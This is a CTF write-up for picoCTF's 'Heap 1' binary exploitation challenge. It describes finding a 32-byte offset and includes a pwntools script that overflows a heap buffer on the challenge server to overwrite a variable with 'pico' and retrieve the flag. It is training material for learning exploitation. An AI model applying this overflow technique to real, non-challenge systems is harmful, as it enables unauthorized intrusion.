

# CTF Write-Up: [Heap 1][Binary Exploitation]

## Description
>Can you control your overflow?


## Flag
The flag you obtained after solving the challenge. (e.g., `picoCTF{starting_to_get_the_hang_9e9243f9}`)

## Difficulty
- **Difficulty Level:** [medium]

## Tools Used
- gdb
- pwntools

## Write-Up

### Preparatory Phase
Static analysis of the source code reveals a `strcmp` check in order to obtain the flag: 

We need `!strcmp(safe_var, "pico")` to be evaluated as true. Using the `man` page for `strcmp` we find out that if the two given strings are equal we return `0`:  Hence initutively we need the variable `safe_var` to be equal to `pico`.

Running the binary we obtain: 

and playing around with the options further we see that the `safe_var` is 
.
Therefore we need to override `0x557790b2c6d0` with `pico`

### Attack Phase
In order to obtain the offset between the start of the buffer and our target address: `0x557790b2c6d0`, I conduct: 

Upon learning about this I create my payload by adding 32 bytes of 'junk' followed by the string "pico". A single character 'A' is represented in a single byte of data therefore create a payload consisting of 32 A's appended with pico should do the trick. 

Using a python script we get the following result: 

### Payload
```python
from pwn import * 

host = 'tethys.picoctf.net' 
port = 50510

payload = b'A'*32 + b'pico'
io = remote(host, port)

# The command on the program to write to buffer
io.sendline(b'2')
io.sendline(payload)

# The command to print the flag (i.e. calls the check_win function)
io.sendline(b'4')
resp = io.recvall()
print(resp)
```

### Lessons Learnt
- Using python3 pwntools I need to ensure I send bytes i.e.`"pico"` needs to become `b'pico'`. 
## References
- https://owasp.org/www-community/vulnerabilities/Buffer_Overflow
